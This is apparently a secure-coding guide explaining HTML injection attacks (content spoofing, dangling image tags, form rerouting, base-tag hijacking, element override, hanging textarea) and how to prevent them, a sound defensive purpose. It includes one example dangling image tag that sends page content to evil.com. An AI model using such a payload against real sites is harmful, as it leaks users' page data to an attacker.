 HTML injections
-------

**Description:**

Whenever an attacker can inject HTML in your application there is a variety of different
attacks he could perform such as:

1. Content Spoofing 
2. Image Tag Injection 	
3. Form Rerouting 
4. Base Jumping 
5. Element Override 
6. Hanging Textarea

Even when your application intercepts XSS injections by means of a content security policy
header it still remains vulnerable to the attacks summarised above.

**Solution:**

1.Content spoofing Otherwise known as "Content Injection" or "Virtual Defacement" occurs 
whenever an attacker can inject code into your application. It is very important to sanitise and
or encode user data before you display it on screen as HTML. 

2.Image tag injection occurs whenever an attacker injects a broken image tag with a non terminated
parameter like : "img src='http://evil.com?steal.php?value=
Every content after value= parameter will now be stolen and send to evil.com by the attacker 
till the injection finds the next occurrence of a matching single quote.

Again you should sanitise and encode the user-input to prevent an image tag from being injected
in your application. For whenever a user is permitted to submit an image on your application
enforce and verify the application accepts valid non-broken tags only.
 
3.The "form" tag can't be nested. The top-level occurrence of this element
always takes precedence over subsequent appearances. Again you must avoid this type by 
properly encoding and sanitising your user-inputs.

4.Whenever an attacker injects a "base" tag into your application it can steal data because
the <base> tag specifies the base URL/target to where to process his data to.

The solution to base jumping would be to us absolute paths in your application such as:
action='/update_profile.php'

instead of:
action='update_profile.php'

5/6 can both also easily be prevented simply be encoding or sanitising your user-input
submitted towards your application.

Always validate your user-input on a high level(server side constraint). Whenever your 
application expects an integer you should validate and check whether the user submitted 
input really is what you expected it to be and otherwise you terminate and log the request.

   
